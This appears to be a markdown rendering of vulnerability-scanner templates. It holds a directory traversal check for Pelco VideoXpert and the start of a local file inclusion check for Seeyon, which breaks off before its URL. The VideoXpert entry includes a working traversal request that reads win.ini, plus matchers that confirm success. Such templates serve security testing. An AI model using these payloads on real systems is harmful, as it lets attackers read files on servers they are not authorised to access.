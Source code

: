 # Schneider Electric Pelco VideoXpert Core Admin Portal - Directory Traversal

## Description

- Pelco VideoXpert suffers from a directory traversal vulnerability. Exploiting this issue will allow an unauthenticated attacker to view arbitrary files within the context of the web server.
- severity - high
- tags - schneider,pelco,packetstorm,lfi,videoxpert

## Requests

- Method - GET

### URL

- {{BaseURL}}/portal//..\\\..\\\..\\\..\\\windows\win.ini

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

**Type - status**

- status
  1. 200

---

# Seeyon WooYun - Local File Inclusion

## Description

- Seeyon WooYun allows remote attackers to include the content of locally stored content and disclose it back to the attacker via local file inclusion.
- severity - high
- tags - seeyon,wooyun,lfi,zhiyuan

## Requests

- Method - GET

### URL

